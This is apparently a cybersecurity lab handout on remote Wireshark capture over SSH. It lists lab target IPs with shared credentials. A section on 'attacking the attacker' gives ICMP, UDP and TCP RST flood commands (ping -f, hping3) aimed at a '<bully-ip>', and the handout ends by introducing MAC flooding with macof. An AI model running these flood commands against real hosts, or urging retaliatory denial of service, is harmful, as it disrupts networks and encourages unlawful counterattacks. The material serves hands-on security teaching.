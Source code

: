Step 4: Select Start    




Defense:    
Developing RSA key pair for more secure remote log-in    
 

### Try it now    
Log into your Ubuntu box    
Ensure sshd is running and password enabled (see SSHerlock)    
Log into your Kali box    
Remote SSH capture with Wireshark from your Kali box    
In a different terminal on your Kali box, ping your Ubuntu box    
ping 10.15.x.x    
See if you can read the pings on your Kali box from the perspective of the ubuntu box    
 
## Remote Wireshark Capture with SSH Practice
**Must be pre-set up in lab**  
    
LANgeist Target7:    
IP:10.15.34.250    
Username: agent    
Password: agent    
What IP address is pinging Target7?
    
LANgeist Target6:    
IP:10.15.69.25    
Username: agent    
Password: agent    
What IP address is pinging Target6?

**Attacking the attacker**    
ICMP (ping flood)	Overloads bully’s ICMP traffic    
#### `ping -f -s 65507 <bully-ip>`	    
#### `hping3 --flood --icmp <bully-ip>`	    
    
TCP RST attack: Closes TCP connections on specific ports    
#### `hping3 --rst -p <port#> -c 10000 <bully-ip>`	  
#### `iptables -A OUTPUT -p tcp --dport <port#> -d <bully-ip> -j DROP`	  

UDP attack: Overload and Block    
#### `hping3 --flood --udp -p <port#> <bully-ip>`	    
#### `iptables -A INPUT -p udp --sport <port#> -s <bully-ip> -j DROP`	    
    
    

 
---

# Use the Dsniff tool Macof to conduct a MAC Flood attack     
